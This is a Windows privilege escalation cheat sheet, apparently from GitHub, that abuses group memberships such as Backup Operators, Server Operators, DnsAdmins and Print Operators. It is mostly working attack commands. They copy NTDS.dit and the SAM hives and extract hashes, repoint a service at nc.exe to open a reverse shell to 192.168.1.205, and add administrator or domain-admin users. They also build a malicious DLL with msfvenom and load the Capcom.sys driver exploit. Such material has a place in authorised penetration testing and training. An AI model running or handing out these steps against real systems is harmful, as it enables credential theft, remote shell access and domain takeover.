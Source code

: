 # ✅ Windows Privilege Escalation – Group Privileges (Cheat Sheet)

---

## 🎯 Quick Wins
- [ ] `Backup Operators` → Copy files (SAM, SYSTEM, NTDS.dit)
- [ ] `Server Operators` → Modify service binary path → SYSTEM/Admin
- [ ] `Print Operators` → Load vulnerable driver (Capcom.sys) → SYSTEM
- [ ] `DnsAdmins` → Load malicious DLL via dnscmd → DA / SYSTEM
- [ ] `Hyper-V Admins` → Access VM disks → NTDS.dit → Hashes
- [ ] `Event Log Readers` → Search logs for credentials

---

## ✅ Enumeration

```powershell
whoami /groups
net localgroup "Backup Operators"
net localgroup "DnsAdmins"
net localgroup "Event Log Readers"
```

## ✅ Backup Operators

```c
# Enable Backup Privilege
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-SeBackupPrivilege

# Copy Protected File
Copy-FileSeBackupPrivilege 'C:\Confidential\file.txt' .\file.txt

# Copy NTDS.dit & SYSTEM hive (using diskshadow)
diskshadow.exe
DISKSHADOW> set context clientaccessible
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
robocopy /B E:\Windows\NTDS .\ntds ntds.dit


# Backup SAM & SYSTEM hives
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV

# Extract Hashes
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV -hashes lmhash:nthash LOCAL
```
## ✅ Server Operators

[Important Article](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/)


```
# Using Winrm
# Check the services
services
# upload nc or reverse shell
upload /usr/share/windows-binaries/nc.exe
# change the binpath
sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
nc -lvp 1234
sc.exe stop VMTools
sc.exe start VMTools
```


```c
# Check The current configuration of the service
> sc qc <service name>

# Modify Service Binary Path
sc config AppReadiness binPath= "cmd /c net localgroup Administrators user /add"

# Start The Service
sc start AppReadiness || > net start daclsvc

# Verify Admin Access
net localgroup Administrators
```

## ✅ DnsAdmins

```c
#Check Permession
sc sdshow DNS

# Create Malicious DLL
msfvenom -p windows/x64/exec cmd='net group "domain admins" user /add /domain' -f dll -o adduser.dll

# Load DLL with dnscmd
dnscmd.exe /config /serverlevelplugindll C:\path\adduser.dll

# Restart DNS Service (if allowed)
sc stop dns
sc start dns

# Cleanup
reg delete HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```

## ✅ Hyper-V Administrators

```c
# Exploit via VHDX access or vulnerable service (e.g., Mozilla Maintenance Service)
takeown /F "C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe"

# Replace binary with malicious exe and start service
sc start MozillaMaintenance
```

## ✅ Event Log Readers

```c
# Confirm Group Membership
net localgroup "Event Log Readers"

# Search Logs for Credentials
wevtutil qe Security /rd:true /f:text | findstr "/user"
Get-WinEvent -LogName Security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}

wevtutil qe Security /rd:true /f:text | Select-String "/user"
```

## ✅ Print Operators

```c
# Confirm Privilege
whoami /priv

# Enable SeLoadDriverPrivilege
EnableSeLoadDriverPrivilege.exe

# Add reference to Capcom.sys driver
reg add HKCU\System\CurrentControlSet\Capcom /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\Capcom /v Type /t REG_DWORD /d 1

# Exploit the driver
ExploitCapcom.exe
```
---
---
